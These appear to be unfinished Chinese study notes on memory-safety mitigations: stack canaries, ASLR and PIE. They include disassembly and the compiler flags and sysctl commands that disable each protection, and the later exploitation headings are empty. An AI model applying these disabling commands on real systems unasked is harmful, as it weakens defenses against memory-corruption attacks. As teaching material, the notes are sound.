当启用栈保护后,函数开始执行的时候会先往栈里插入 cookie 信息,当函数真正返回的时候会验证 cookie 信息是否合法,如果不合法就停止程序运行

当进入函数时,在栈上 ret rip 之前保存一个只有操作系统知道的数值;当函数返回时,检查栈上这个地方的数值有没有被改写,若被改写了,则中止程序运行

```C
-fstack-protector ;栈保护机制
-fno-stack-protector ;关闭栈保护机制
```

```X86
0000000000400666 <main>:
  400666:   55                      push   rbp
  400667:   48 89 e5                mov    rbp,rsp
  40066a:   48 83 ec 50             sub    rsp,0x50
  40066e:   64 48 8b 04 25 28 00    mov    rax,QWORD PTR fs:0x28
  400675:   00 00
  400677:   48 89 45 f8             mov    QWORD PTR [rbp-0x8],rax
  ...
  ...
  ...
  4006d3:   48 8b 55 f8             mov    rdx,QWORD PTR [rbp-0x8]
  4006d7:   64 48 33 14 25 28 00    xor    rdx,QWORD PTR fs:0x28
  4006de:   00 00
  4006e0:   74 05                   je     4006e7 <main+0x81>
  4006e2:   e8 09 fe ff ff          call   4004f0 <__stack_chk_fail@plt>
  4006e7:   c9                      leave
  4006e8:   c3                      ret
  4006e9:   0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
```

函数的开头和结束增加了

mov rax,QWORD PTR fs:0x28;

mov QWORD PTR [rbp-0x8],rax

类似的检测代码

检测插入栈中的随机值是否被修改

#### 内存布局随机化机制

ALSR

内存布局随机化就是将程序的加载位置、堆栈位置以及动态链接库的映射位置随机化

只有局部变量的地址是变化的,全局变量的地址,main 函数的地址以及某条指令运行时刻的实际 rip 数值都是不变,因此程序是被加载到固定位置运行,但堆栈位置是随机的.

```C
sudo sysctl -w kernel.randomize_va_space=0 ;关闭内存随机化机制
sudo sysctl -w kernel.randomize_va_space=1 ;共享库、栈、mmap() 以及 VDSO 将被随机化
sudo sysctl -w kernel.randomize_va_space=2 ;完全的随机化。在 1 的基础上，通过 brk() 分配的内存空间也将被随机化
```

可以看到打开 ALSR 之后程序每次加载动态库的地址不同

关闭 ALSR 之后程序每次加载动态库的地址相同


但是 ALSR 并不负责代码段和数据段的随机化

#### PIE

Position Independent Executable

ASLR 是加载时随机化,由操作系统完成

PIE 是编译时随机化,由编译器完成

ASLR 将程序运行时的堆栈以及共享库的加载地址随机化

PIE 在编译时将程序编译为位置无关,即程序运行时各个段加载的虚拟地址在装载时确定

PIE 负责代码段和数据段的随机化

在开启 ALSR 的情况下,打开 PIE 才有效

```shell
#gcc 参数
-pie    #打开
-no-pie #关闭
```

针对下面代码查看 main() 函数入口地址

```C
#include<stdio.h>
void main() {
    printf("%p\n", main);
}
```

打开 ALSR 和 PIE 之后,每次启动程序 main() 函数的地址总是随机改变


打开 ALSR,关闭 PIE 之后,每次启动程序 main() 函数的地址总是不变


## 格式化字符串

### printf(%n)改变程序的执行

### PLT 和 GOT

### printf(%n)修改GOT地址

## 堆漏洞

## 整数溢出

## 其它